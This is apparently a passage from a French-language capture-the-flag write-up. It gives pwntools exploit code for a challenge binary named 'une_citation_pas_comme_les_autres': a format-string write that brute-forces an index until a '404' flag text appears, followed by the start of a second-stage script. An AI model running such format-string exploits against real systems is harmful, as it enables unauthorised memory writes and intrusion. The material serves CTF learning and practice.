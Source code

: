 ```python
    return io


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if pwn.args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

def write_fmt(data):
    io.sendline(b"2")
    io.sendline(data)
    io.recvuntil(b">>> ")

def read_citation():
    io.recvuntil(b">>> ")
    io.sendline(b"1")
    return io.recvuntil(b"1: Lire une citation")


def exp():

    chosen_index = 0x004be130
    fmtstr_buffer_offset = 6

    num_quote_val = 0xffffffff

    i = 80400
    while True:
        chosen_index_val = i
        val = num_quote_val << 32 | chosen_index_val


        write_fmt(pwn.fmtstr_payload(fmtstr_buffer_offset, {chosen_index : val}))
        citation = read_citation().decode("utf-8")
        if "404" in citation:
            pwn.log.success(citation)
            break
        pwn.log.info(f"{i} : {citation}")
        i -= 1
    io.interactive()

if __name__ == "__main__":
    io = start()
    exp()
```

* Seconde partie

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

# this exploit was generated via
# 1) pwntools
# 2) ctfmate

import os
import time
import pwn

BINARY = "une_citation_pas_comme_les_autres_2_2"
LIBC = "/home/kali/Desktop/404_Heap/second_stage/libc.so.6"
```